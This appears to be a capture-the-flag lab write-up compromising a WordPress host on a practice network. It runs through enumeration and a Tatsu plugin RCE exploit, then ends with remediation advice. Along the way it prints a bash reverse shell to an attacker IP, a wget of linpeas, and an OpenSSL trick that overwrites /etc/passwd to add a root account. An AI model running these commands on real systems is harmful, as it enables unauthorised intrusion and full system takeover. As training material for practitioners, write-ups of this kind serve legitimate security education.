










# Web01 PRD V2 - Virtual Hacking Lab

| Info          | Details                                                          |
| ------------- | ---------------------------------------------------------------- |
| Platform      | Virtual Hacking Lab                                              |
| Difficulty    | Advanced                                                         |
| Target IP     | 10.11.1.7                                                        |
| OS            | Linux                                                            |
| Vulnerability | Wordpress (wpDiscuz)                                             |
| Tools Used    | Nmap, Gobuster, Dirsearch, WPScan, Searchsploit, Netcat, LinPEAS |

## Attack Path

1. Nmap identified **FTP, SSH, HTTP** services.
2. FTP allowed **anonymous access**.
3. Web enumeration identified **WordPress**.
4. WPScan revealed user **web01** and plugin **wpDiscuz 7.0.4**.
5. Vulnerability research identified **RCE exploit**.
6. Reverse shell obtained as **www-data**.
7. LinPEAS identified **OpenSSL GTFOBins misconfiguration**.
8. `/etc/passwd` overwritten to create root user.
9. Root shell obtained.
10. Flag retrieved.

## Environment Setup

First, create a working directory and files to organize enumeration results.


```bash
mkdir web01_prd_v2
cd web01_prd_v2
mkdir nmap gobuster exploit
touch users.txt creds.txt
echo 'Testing....1...2...3...' > test.txt
```

# Network Scanning

A full TCP scan was performed.

```bash
ip='10.11.1.7'
## Regular Scan + Version
sudo nmap -Pn -n $ip -sC -sV -p- --open -oN nmap/nmap.log
```

Reminder:
1. Check all the version
2. Check all the open ports



Results: Discovered ftp, ssh, http, rpcbind, ipp, and mysql.
## FTP Enumeration

```bash
ftp $ip 
anonymous::anonymous
"Success"
```



Navigate directories:

```bash
ls -la
cd pub
ls -la
```



Results: Discovered `pub` directory, but no file inside the `pub directory`

# HTTP Enumeration

Directory brute forcing was performed.

``` bash
# Gobuster
gobuster dir -u http://$ip -w /usr/share/wordlists/dirb/common.txt -o gobuster/dir.log -t 42

# dirsearch
dirsearch -u $ip
```

Gobuster:



Dirsearch:


Results: directory brute forcing discovered /wp-admin. Which confirmed the application is wordpress


/wp-admin:


```bash
#lets try weak password
admin::admin
"Failed"
```

## Wordpresss Enumeration

```bash
wpscan --url http://$ip --enumerate p --plugins-detection aggressive
```



Results: Discovered an outdated version of a plugins - wpdiscuz 7.0.4

```bash
wpscan --url http://$ip --enumerate u
"found user web01"
```



```bash
searchsploit wpdiscuz 7.0.4
"found an rce"
```



```bash
searchsploit -m 49967
```

Results: the exploit code is not working.

Conduct more enumeration

Since i had the users, tried brute force the password (failed)

Since brute force user/ password and exploit 49967 failed.

Conduct more enumeration on wordpress

```bash
# Scan all plugins
wpscan --url http://$ip --enumerate ap
```

Discovered: tatsu plugins is outdated.

```bash
# clone the exploit code from github
git clone https://github.com/darkpills/CVE-2021-25094-tatsu-preauth-rce.git

# run the exploit code
python3 exploit-rce.py http://10.11.1.7 "bash -c 'bash -i >& /dev/tcp/172.16.1.2/4444 0>&1'"

# Open a nc listener
sudo nc -lnvp 4444
```

# Linux Privilege Escalation

```bash
# Upgrade shell
python3 -c  'import ptyl; pty.spawn("/bin/bash")'

# check privilege 
whoami
id
```

Results: return www-data

```bash
# use linpeas
wget http://172.16.1.1/linpeas.sh && chmod +x linpeas.sh

./linpeas.sh
"found ssl gtfo bin"
```

Results: - **OpenSSL identified as a GTFOBins candidate**

## Privilege Escalation - GTFOBins (OpenSSL)

```bash
## use ssl gtfobin to write file in /etc/passwd
openssl passwd Hacker123

## Exploit OpenSSL to overwrite `/etc/passwd`:
echo "hacker:AgV/xq6IxMEK2:0:0:root:/root:/bin/bash" | openssl enc -out /etc/passwd

# Verify
cat /etc/passwd

# Switch to root user
su hacker
Hacker123

# verify again
whoami
id
cat /root/key.txt
```



# Remediation

### 1. Disable Anonymous FTP

- Disable anonymous login on FTP services.
- Restrict access to authenticated users only.

---

### 2. Patch WordPress & Plugins

- Update WordPress core and plugins regularly.    
- Remove vulnerable plugins such as **wpDiscuz 7.0.4**.

---

### 3. Secure Web Applications

- Implement input validation to prevent **RCE vulnerabilities**.    
- Use a Web Application Firewall (WAF).

---

### 4. Strong Authentication

- Enforce strong passwords.    
- Prevent user enumeration where possible.

---

### 5. Restrict Dangerous Binaries

- Limit misuse of binaries like **OpenSSL**.    
- Remove unnecessary execution permissions.    

---

### 6. Protect Critical Files

- Restrict write access to:    `/etc/passwd`
- Only root should have write permissions.    

---

### 7. System Hardening

- Apply principle of least privilege.
- Regularly audit system permissions and binaries.
- Monitor for suspicious privilege escalation attempts.